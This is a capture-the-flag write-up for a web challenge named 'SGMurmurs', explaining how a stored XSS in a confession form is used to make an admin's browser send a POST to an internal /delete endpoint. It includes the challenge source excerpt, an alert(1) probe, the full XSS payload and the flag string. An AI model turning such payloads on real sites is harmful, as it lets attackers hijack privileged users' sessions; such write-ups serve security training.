

# [Web] SGMurmurs

## Description

Sometimes you regret your own confession and want to delete it before Prof Ben reads it, but you ain't got the access

Sometimes you don't need the access, when you can get someone else to do it for you ;)

Delete your own confession to get the flag!

Visit SGMurmurs today!



😳

## Walkthrough

Seems like we are able to add "Confesssions" which can then be "reported" to an admin. 🤔 Immediately we think of client-side attacks such as XSS or CSRF.

The goal is to get the admin to delete a submitted confession, which will have a UUID tied to it. Each UUID is also stored as a session cookie.

Upon submitting a confession, we get directed to `/viewpage` which contains the current session's confession:


There is also a way to send this confession to the admin by clicking on the "report" link.

Observe that the confession form is vulnerable to XSS. So we can enter something like:

```js
<script>
    alert(1);
</script>
```


Also, the source code for this application is given. Let us find if there is a function for the admin to delete our confession:

```js
app_flag.post('/delete', (req, res) => {
    // force a preflighted fetch using custom header so Access-Control-Allow-Methods is enforced
    if (req.header('X-NO-POST') !== 'true') {
        res.status(500).send('Not allowed, very illegal, calling polis');
    } else {
        let uuid = req.body.uuid;
        if (uuid in DATABASE) {
            let entry = DATABASE[uuid];
            entry.deleted = true;
            res.end('Deleted.')
        } else {
            res.status(404).send('Entry not found.')
        }
    }
});
```

However, this routing belongs to `app_flag` which is another application located at the server's port `12345`. This means that we need to send a HTTP `POST` request to `http://localhost:12345/delete` in order to reach the function above to delete our confession.

There is another constraint, that is that the request must contain the header `X-NO-POST` set to `true`. We also need to supply the `uuid` in the request body.

We now have a clear path of attack:
1. XSS the confession form and "report" it to the admin, triggering a visit to the `/viewpage` which triggers our payload.
2. Payload must make a `POST` request to `http://localhost:12345/delete` containing the `X-NO-POST` header and the `uuid` to delete.

We can obtain the `uuid` from the `/viewpage` itself:

```js
let uuid = $( "#uuid" ).html().split("#")[1];
```

Now, the final payload is as such:

```js
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://127.0.0.1:12345/delete', true);
    xhr.setRequestHeader('X-NO-POST', 'true');
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    let uuid = $( "#uuid" ).html().split("#")[1];
    xhr.send('uuid='.concat(uuid));
</script>
```

After sending this confession, we `/report` it and `/view` it:


Giving us the flag: `CTFSG{admin_please_update_the_page_more_frequently_thanks}`
